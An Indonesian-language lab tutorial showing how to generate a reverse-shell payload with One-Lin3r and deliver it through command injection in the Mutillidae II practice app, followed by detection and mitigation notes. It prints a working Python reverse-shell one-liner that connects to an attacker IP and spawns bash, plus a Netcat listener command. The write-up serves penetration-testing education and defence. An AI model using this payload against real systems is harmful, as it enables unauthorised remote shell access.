

# Reverse Shell with One-Lin3r: Crafting a Reverse Shell Payload in a Single Command

[🇬🇧 Read in English](command-injection-reverse-shell-en.md)

# Apa itu Reverse Shell?

Reverse Shell adalah teknik di mana **mesin target membuat koneksi keluar (outbound connection)** menuju mesin milik attacker atau pentester sehingga shell interaktif dapat diperoleh dari jarak jauh.

Berbeda dengan **Bind Shell** yang membuka port pada sisi target, Reverse Shell memanfaatkan koneksi keluar sehingga sering kali lebih mudah melewati firewall yang hanya mengizinkan trafik outbound.

Perlu dipahami bahwa **Reverse Shell bukanlah sebuah kerentanan**, melainkan **payload** yang dijalankan setelah penyerang berhasil memperoleh kemampuan menjalankan perintah pada sistem target.

<details>
<summary>Jenis Reverse shell antara lain</summary>

1. TCP Reverse Shell
2. UDP Reverse Shell
3. ICMP Reverse Shell
4. HTTP Reverse Shell
5. HTTPS Reverse Shell
6. DNS Reverse Shell
7. WebSocket Reverse Shell
8. TLS-encrypted Reverse Shell
9. SSH Reverse Shell
10. FTP-based Reverse Shell
11. SMTP-based Reverse Shell
12. Raw Socket Reverse Shell
13. IPv4 Reverse Shell
14. IPv6 Reverse Shell
15. Unix Socket Reverse Shell
16. Named Pipe Reverse Shell
17. FIFO-based Reverse Shell
18. File Descriptor-based Reverse Shell
19. PTY Reverse Shell
20. Non-PTY Reverse Shell
21. Interactive Reverse Shell
22. Non-interactive Reverse Shell
23. One-liner Reverse Shell
24. Multi-stage Reverse Shell
25. Staged Reverse Shell
26. Stageless Reverse Shell
27. Encrypted Reverse Shell
28. Obfuscated Reverse Shell
29. Encoded Reverse Shell
30. Polymorphic Reverse Shell
31. Proxy-aware Reverse Shell
32. SOCKS-based Reverse Shell
33. HTTP Proxy Reverse Shell
34. Domain-fronted Reverse Shell
35. NAT-traversing Reverse Shell
36. Firewall-evasive Reverse Shell
37. Multiplexed Reverse Shell
38. C2-integrated Reverse Shell
39. Meterpreter Reverse Shell
40. PowerShell Reverse Shell
41. CMD Reverse Shell
42. Bash Reverse Shell
43. sh Reverse Shell
44. Zsh Reverse Shell
45. Python Reverse Shell
46. Perl Reverse Shell
47. PHP Reverse Shell
48. Ruby Reverse Shell
49. Java Reverse Shell
50. Groovy Reverse Shell
51. Node.js Reverse Shell
52. Lua Reverse Shell
53. Go Reverse Shell
54. C Reverse Shell
55. C++ Reverse Shell
56. Rust Reverse Shell
57. Windows-native Reverse Shell
58. Linux/Unix Reverse Shell
59. macOS Reverse Shell
60. Container-based Reverse Shell
61. Webshell-based Reverse Shell
62. WebSocket-based Reverse Shell
63. Database-triggered Reverse Shell
64. File-upload-triggered Reverse Shell
65. Scheduled-task-triggered Reverse Shell
66. Service-triggered Reverse Shell
67. In-memory Reverse Shell
68. Fileless Reverse Shell
69. Bind-to-Reverse Shell Pivot
70. Reverse Shell over C2 Channel
</details>
---

# Root Cause

Reverse Shell hanya dapat dijalankan apabila penyerang telah memperoleh **Command Execution** pada server.

Beberapa kerentanan yang umum menjadi titik masuk antara lain:

- Command Injection
- Remote Code Execution (RCE)
- Unsafe File Upload
- Insecure Deserialization
- Web Shell
- Local Privilege Escalation

Pada demonstrasi kali ini, **Command Injection** menjadi akar penyebab (*root cause*) yang memungkinkan payload Reverse Shell dieksekusi.

Alur serangan secara sederhana dapat digambarkan sebagai berikut.

```text
Command Injection
        │
        ▼
Command Execution
        │
        ▼
Reverse Shell Payload
        │
        ▼
Outbound Connection
        │
        ▼
Interactive Shell
```

---

# Mengapa Menggunakan One-Lin3r?

**One-Lin3r** membantu menghasilkan payload secara otomatis. Pengguna hanya perlu menentukan:

- Jenis payload
- IP Address listener
- Port listener

Kemudian tool akan menghasilkan payload siap digunakan.

Repository:

https://github.com/D4Vinci/One-Lin3r

Berikut daftar payload yang tersedia.


---

# Topologi Lab

Pada demonstrasi ini saya menggunakan lingkungan lab sederhana berbasis VMware.

| Peran | Keterangan | IP Address |
| :--- | :--- | :--- |
| **Attacker** | Kali Linux | `10.10.10.149` |
| **Target Web** | Ubuntu Server (Mutillidae II) | `10.10.10.2` |

```text
+-------------------------------------------------+
|            VMware - 10.10.10.0/24               |
|                                                 |
|  +---------------+      +-------------------+   |
|  |  Kali Linux   |      |   Ubuntu Server   |   |
|  |  [ATTACKER]   |      |   [TARGET WEB]    |   |
|  |  nc Listener  | <--- |   Reverse Shell   |   |
|  | 10.10.10.149  |      |   10.10.10.2      |   |
|  |   Port 9001   |      |   Mutillidae II   |   |
|  +---------------+      +-------------------+   |
+-------------------------------------------------+
```

---

# Membuat Payload Reverse Shell

Pilih payload berikut pada One-Lin3r.

```text
linux/python/socket_reverse
```

Kemudian tentukan alamat listener.

```text
10.10.10.149:9001
```

One-Lin3r akan menghasilkan payload seperti berikut.


```python
python3 -c 'import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.149",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close();'
```

Payload di atas melakukan beberapa proses secara otomatis:

- Membuat koneksi TCP menuju mesin attacker.
- Menghubungkan **stdin**, **stdout**, dan **stderr** ke socket.
- Menjalankan `/bin/bash`.
- Membentuk shell interaktif melalui pseudo-terminal (`pty`).

Apabila diperlukan, IP Address dan Port dapat diubah menggunakan editor seperti VS Code atau Notepad++.

---

# Menjalankan Listener

Sebelum payload dieksekusi pada target, attacker harus membuka listener menggunakan Netcat.

```bash
nc -lvnp 9001
```

Listener akan menunggu koneksi masuk dari target.

---

# Demonstrasi melalui Command Injection

Pada demonstrasi ini saya menggunakan aplikasi latihan **Mutillidae II** yang memiliki kerentanan **Command Injection**.

Kerentanan ini terjadi ketika input pengguna diteruskan ke sistem operasi tanpa validasi atau sanitasi yang memadai, sehingga attacker dapat menyisipkan perintah tambahan untuk dieksekusi oleh sistem.

<details>
<summary>**Command Injection** memiliki beberapa varian berdasarkan teknik dan kondisi eksploitasi, antara lain:</summary>

1. Basic Command Injection
2. OS Command Injection
3. Blind Command Injection
4. Time-based Blind Command Injection
5. Out-of-Band (OOB) Command Injection
6. Second-order Command Injection
7. Argument Injection
8. Shell Metacharacter Injection
9. Command Separator Injection
10. Newline Injection
11. Command Substitution Injection
12. Variable Expansion Injection
13. Wildcard Injection
14. Option / Flag Injection
15. Environment Variable Injection
16. Path Injection
17. Shell Expansion Injection
18. Expression-based Command Injection
19. Filter Bypass Command Injection
20. Encoding-based Command Injection
21. Double-encoding Command Injection
22. Case-manipulation Command Injection
23. Whitespace Bypass Command Injection
24. Quote Bypass Command Injection
25. Character Injection
26. CRLF-based Command Injection
27. Shell-specific Command Injection
28. Windows Command Injection
29. Unix/Linux Command Injection
30. PowerShell Command Injection
31. CMD.exe Command Injection
32. Bash Command Injection
33. Sh Command Injection
34. Zsh Command Injection
35. Fish Shell Command Injection
36. Batch Command Injection
37. Macro / Script Command Injection
38. Template-to-Command Injection
39. API-based Command Injection
40. HTTP Parameter Command Injection
41. Header-based Command Injection
42. Cookie-based Command Injection
43. File-based Command Injection
44. Log-based Command Injection
45. SQL-to-Command Injection
46. Web-to-Command Injection
47. Command Injection via File Upload
48. Command Injection via Archive Extraction
49. Command Injection via Image/Media Processing
50. Command Injection via System Utilities
</details>

Beberapa varian dapat saling tumpang tindih karena pengelompokan tersebut didasarkan pada teknik, cara eksekusi, maupun karakteristik aplikasinya.

Ilustrasi sederhana:

```bash
ping <input_user>
```

Apabila aplikasi tidak melakukan validasi input, attacker dapat menyisipkan payload sehingga command tambahan ikut dieksekusi oleh sistem operasi.

Pada contoh berikut, payload Reverse Shell ditempelkan ke parameter yang rentan.


Ketika payload berhasil dieksekusi oleh server, target akan membuat koneksi TCP menuju listener Netcat pada mesin attacker.

---

# Hasil

Apabila listener aktif dan koneksi tidak diblokir oleh firewall, Netcat akan menerima koneksi dari server target.



Shell interaktif berhasil diperoleh dan attacker kini dapat menjalankan perintah pada sistem target sesuai hak akses proses aplikasi web.

---

# Detection

Aktivitas Reverse Shell umumnya masih dapat dideteksi melalui beberapa indikator berikut.

- Proses aplikasi web menjalankan shell (`/bin/bash`, `sh`, `cmd.exe`, `powershell.exe`).
- Adanya koneksi outbound yang tidak biasa menuju IP eksternal.
- Log EDR atau Sysmon yang menunjukkan proses membuat koneksi jaringan.
- Aktivitas Netcat, Bash, Python, atau PowerShell yang tidak lazim.

Monitoring proses dan koneksi outbound merupakan salah satu cara efektif untuk mendeteksi aktivitas Reverse Shell.

---

# Mitigasi

Karena Reverse Shell hanyalah payload, maka mitigasi utamanya adalah mencegah **Command Execution** pada server.

Beberapa langkah yang dapat diterapkan antara lain:

- Validasi seluruh input pengguna.
- Hindari penggunaan fungsi yang mengeksekusi command sistem operasi.
- Terapkan prinsip **Least Privilege** pada service aplikasi.
- Batasi koneksi outbound yang tidak diperlukan.
- Gunakan EDR, IDS/IPS, atau monitoring proses dan jaringan.
- Lakukan audit log secara berkala untuk mendeteksi aktivitas yang tidak biasa.

---

# Kesimpulan

Reverse Shell bukan merupakan sebuah kerentanan, melainkan payload yang digunakan setelah attacker berhasil memperoleh **Command Execution** pada sistem target.

Pada demonstrasi ini, **Command Injection** menjadi akar penyebab yang memungkinkan payload Reverse Shell dijalankan. Sementara itu, **One-Lin3r** berperan sebagai payload generator yang membantu menghasilkan berbagai variasi Reverse Shell secara cepat tanpa perlu menghafal sintaks dari banyak bahasa pemrograman.

Bagi seorang pentester, tool seperti One-Lin3r dapat mempercepat proses pengujian. Sedangkan dari sudut pandang defender, fokus utama seharusnya adalah mencegah kemampuan **Command Execution** serta memonitor aktivitas proses dan koneksi outbound yang mencurigakan.

---

# Referensi

- **One-Lin3r (GitHub)**  
  https://github.com/D4Vinci/One-Lin3r

- **PayloadsAllTheThings – Reverse Shell Cheat Sheet**  
  https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

- **PentestMonkey – Reverse Shell Cheat Sheet**  
  https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet/

- **MITRE ATT&CK – Command and Scripting Interpreter (T1059)**  
  https://attack.mitre.org/techniques/T1059/

---

Terima kasih sudah membaca.

Semoga tulisan singkat ini dapat membantu memahami hubungan antara **Command Injection**, **Command Execution**, dan **Reverse Shell**, serta bagaimana **One-Lin3r** dapat digunakan untuk menghasilkan payload secara cepat dalam lingkungan pengujian yang legal dan terkontrol.
